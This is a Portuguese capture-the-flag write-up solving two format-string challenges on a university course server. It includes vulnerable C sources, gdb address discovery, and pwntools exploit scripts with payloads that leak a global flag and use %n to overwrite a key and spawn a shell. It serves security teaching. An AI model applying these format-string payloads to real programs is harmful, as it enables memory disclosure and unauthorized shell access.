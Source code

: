 
## CTF Part 1

- para sabermos com o que estamos a lidar nos demos uma vista de olhos no main.c
```c

#include <stdio.h>
#include <stdlib.h>

#define FLAG_BUFFER_SIZE 40

char flag[FLAG_BUFFER_SIZE];

void load_flag(){
    FILE *fd = fopen("flag.txt","r");

    if(fd != NULL) {
        fgets(flag, FLAG_BUFFER_SIZE, fd);
    }
}

int main() {

    load_flag();
   
    char buffer[32];

    printf("Try to unlock the flag.\n");
    printf("Show me what you got:");
    fflush(stdout);
    scanf("%32s", &buffer);
    printf("You gave me this: ");
    printf(buffer);

    if(0) {
        printf("I like what you got!\n%s\n", flag);
    } else {
        printf("\nDisqualified!\n");
    }
    fflush(stdout);
    
    
    return 0;
}

```
- podemos ver que o scanf esta desprotegido não é efetuada sanatização de um buffer que é utilizado fornecido pelo utilizador(o que nos deixa aplicar a vulnerabilidade do format string), que o scanf vai imprimir na shell 32 bytes e que o buffer com a flag é uma variavel global , quando nos corremos o codigo checksec temos este output

```shell
[*] '/home/seed/Downloads/Semana7-Desafio1/program'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)

```
- Com isto nos sabemos que o endereçamento utilizado é little edian
- para obter o endereço do buufer com a flag nos usamos alguns comando do edb para fazermos isso inicialmente nos usamos o exploit template que nos foi fornecido  
```c
from pwn import *

LOCAL = True

if LOCAL:
    p = process("./program")
    """
    O pause() para este script e permite-te usar o gdb para dar attach ao processo
    Para dar attach ao processo tens de obter o pid do processo a partir do output deste programa. 
    (Exemplo: Starting local process './program': pid 9717 - O pid seria  9717) 
    Depois correr o gdb de forma a dar attach. 
    (Exemplo: `$ gdb attach 9717` )
    Ao dar attach ao processo com o gdb, o programa para na instrução onde estava a correr.
    Para continuar a execução do programa deves no gdb  enviar o comando "continue" e dar enter no script da exploit.
    """
    pause()
else:    
    p = remote("ctf-fsi.fe.up.pt", 4004)

p.recvuntil(b"got:")
p.sendline(b"oi")
p.interactive()
```
- depois de executarmos este codigo tivemos este output

![Alt text](Images/image-71.png)

- com este resultado nos conseguimos saber o pid para executarmos num outro terminal o programa com o edb com este codigo que vai ligar o edb ao processo que depois nos vai permitir saber o address do buffer 
```shell
gdb attach 4287

```
- este comando vai correr o gdb neste processo e usando este comando conseguimos o address do buffer

```gdb
p &flag
```
- dando este output

![Alt text](Images/image74.png)

- Nos executamos o codigo multiplas vezes e verificamos que o endereço era estatico com isso nos ja temos informações necessárias para o ataque 
- agora nos so temos de descobrir o offset alteramos uma linha de codigo para saber onde é que nos começavamos a encontrar os elementos do printf
```py
p.sendline(b"AAAA%.8x%.8x")
```
- tivemos este output

![Alt text](Images/image-72.png)

- com este output nos sabemos que não ha offset ou seja para concluir este ctf nos so precisamos de meter o address do buffer e aceder ao buffer utilizando %s que acede a buffers
- o address que recebemos pelo edb é o 0x804c060 mas ele tem que ter um zero a esquerda devido a arquitetura logo o address é 0x0804c060 colocando o em little edian é 0x60 , 0xc0 , 0x04 , 0x08 seguindo o adress do %s o nosso codigo esta feito vai ser alguma coisa com isto
```py
p.sendline(b"\x60\xc0\x04\x08%s")
```
- alterando o Local para False ficamos com este codigo 
```py
from pwn import *

LOCAL = False

if LOCAL:
    p = process("./program")
    """
    O pause() para este script e permite-te usar o gdb para dar attach ao processo
    Para dar attach ao processo tens de obter o pid do processo a partir do output deste programa. 
    (Exemplo: Starting local process './program': pid 9717 - O pid seria  9717) 
    Depois correr o gdb de forma a dar attach. 
    (Exemplo: `$ gdb attach 9717` )
    Ao dar attach ao processo com o gdb, o programa para na instrução onde estava a correr.
    Para continuar a execução do programa deves no gdb  enviar o comando "continue" e dar enter no script da exploit.
    """
    pause()
else:    
    p = remote("ctf-fsi.fe.up.pt", 4004)

p.recvuntil(b"got:")
p.sendline(b"\x60\xc0\x04\x08%s")
p.interactive()

```
- dando o seguinte resultado 

![Alt text](Images/image-73.png)

## CTF part 2

```c
#include <stdio.h>
#include <stdlib.h>

char pad[2] = "\x00\x00";
int key = 0;

int main() {
   
    char buffer[32];

    printf("There is nothing to see here...");
    fflush(stdout);
    scanf("%32s", &buffer);
    printf("You gave me this:");
    printf(buffer);
    fflush(stdout);

    if(key == 0xbeef) {
        printf("Backdoor activated\n");
        fflush(stdout);
        system("/bin/bash");    
    } else {
    	printf("\n\n\nWrong key: %d\n", key);
	fflush(stdout);
    }
        
    return 0;
}
```
- Este é o main contido pelo zip do desafio 2 so com isto conseguimos ver que este codigo contem a mesma vulnerabilidade que é o scanf imprime diretamente codigo do utilizador sem sanatização conseguimos ver que para conseguirmos a flag nos temos que alterar o valor a key para 0xbeef que em hexadecimal é 48879 
- para ver quais as proteções do programa vamos correr o checksec que da este output
![Alt text](Images/image8-3.png)

- com isto sabemos que estamos outravez diante um addresing com little edian de 32 bits
- proseguimos a encontrar o address da variavel global key utilizando o gdb tal como no exercicio anterior

![Alt text](Images/image8-1.png)

- executamos o gdb multiplas vezes e reparamos que o address não se altera e que tem o address com 7 characters porque o primeiro é zero ficando com o address 0x0804b324 como o address esta em little edian o address que vamos utilizar é 0x24 0xb3 0x04 0x08
 - nos mudamos o exploit mudado anterior nestas duas linhas , nos usamos os primeiros 4 characteres para dar um buffer de 32 bits para conseguirmos usar um %.{offset}x em que o offseet é o valor desejado em decimal que é 48879
o offset vai ser 48879 - 4(buffer dos AAAA) - 4 (o Address em si) = 48871 pois o %n vai contar o numero de bytes imprimidos e guardalos no endereço a que esta a apotar neste caso \x24\xb3\x04\x08%
 ```
    p = remote("ctf-fsi.fe.up.pt", 4005)
    p.sendline(b"AAAA\x24\xb3\x04\x08%.48871x%n")
 ```
 - executando o exploit danos este output

![Alt text](Images/image8-2.png)